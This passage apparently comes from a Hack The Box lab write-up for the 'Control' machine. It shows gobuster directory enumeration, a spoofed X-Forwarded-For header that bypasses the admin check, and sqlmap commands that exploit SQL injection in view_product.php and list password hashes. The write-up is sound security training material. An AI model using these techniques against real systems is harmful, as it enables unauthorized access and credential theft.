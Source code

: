 These appear to be used to interact with a database backend. I don't know what they are used for yet but I'll find out soon when I get access to the admin page.

I also check with gobuster for any hidden directories or files:

```
root@kali:~# gobuster dir -w /opt/SecLists/Discovery/Web-Content/big.txt -t 50 -x php -u http://10.10.10.167
[...]
/ADMIN.php (Status: 200)
/Admin.php (Status: 200)
/About.php (Status: 200)
/Images (Status: 301)
/Index.php (Status: 200)
/about.php (Status: 200)
/admin.php (Status: 200)
/assets (Status: 301)
/database.php (Status: 200)
/images (Status: 301)
/index.php (Status: 200)
/uploads (Status: 301)
===============================================================
2019/11/25 20:10:56 Finished
===============================================================
```

The `/uploads` directory gives me a 403 Forbidden error message but if I can upload a file there later I might be able to get RCE that way.

## Getting access to the admin page

By adding the `X-Forwarded-For: 192.168.4.28` header in my HTTP requests, I can pass the verification check put in place on the website. Relying on the `X-Forwarded-For` header for authentication can be dangerous since anyone can set this header on any request they send out.

![](/assets/images/htb-writeup-control/xforwarded.png)

With the header set, I'm able to access the admin portion of the website where I can search for products and update the inventory.

![](/assets/images/htb-writeup-control/admin.png)

## SQL injection

There's an SQL injection vulnerability in the `view_product.php` page that can easily be exploited with sqlmap:

`sqlmap -H "X-Forwarded-For: 192.168.4.28" -u "http://10.10.10.167/view_product.php" --data "productId=69" --proxy=http://127.0.0.1:8080 --random-agent`

![](/assets/images/htb-writeup-control/sqlmap1.png)

Listing users with: `sqlmap -H "X-Forwarded-For: 192.168.4.28" -u "http://10.10.10.167/view_product.php" --data "productId=69" --random-agent --passwords`
